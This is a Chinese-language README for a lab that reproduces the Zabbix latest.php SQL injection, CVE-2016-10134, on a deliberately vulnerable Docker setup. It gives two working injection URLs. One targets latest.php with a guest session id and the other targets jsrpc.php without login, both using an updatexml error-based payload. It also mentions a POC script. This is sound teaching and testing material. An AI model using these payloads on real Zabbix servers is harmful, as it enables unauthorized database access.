



# Zabbix latest.php SQL 注入漏洞（CVE-2016-10134）

[English](README.md)

Zabbix 是一款服务器监控软件，其由 server、agent、web 等模块组成，其中 web 模块由 PHP 编写，用来显示数据库中的结果。

在 Zabbix 版本 2.2.14 和 3.0.4 之前，`latest.php` 文件存在 SQL 注入漏洞。该漏洞允许远程攻击者通过 `toggle_ids` 数组参数在 latest.php 中执行任意 SQL 命令。该漏洞也可以通过 jsrpc.php 利用，且无需任何用户身份。

参考链接：

- https://support.zabbix.com/browse/ZBX-11023
- https://www.exploit-db.com/exploits/40237
- https://www.exploit-db.com/exploits/40353

## 环境搭建

执行如下命令启动 Zabbix 3.0.3:

```
docker compose up -d
```

执行命令后，将启动数据库（MySQL）、Zabbix server、Zabbix agent、Zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过 `docker compose ps` 查看容器状态，并通过 `docker compose start` 来重新启动容器。

## 漏洞复现

访问 `http://your-ip:8080`，用账号 `guest`（密码为空）登录游客账户。

登录后，查看 Cookie 中的 `zbx_sessionid`，复制后 16 位字符：



将这 16 个字符作为 sid 的值，访问 `http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：



这个漏洞也可以通过 jsrpc.php 触发，且无需登录：`http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：



## POC 验证

调试中，我发现不用用户名和密码也可以在 latest.php 中进行 SQL 注入，实现细节见 POC。

```shell
python3 CVE-2016-10134.py -t 127.0.0.1:8080

python3 CVE-2016-10134.py --target 127.0.0.1:8080
```
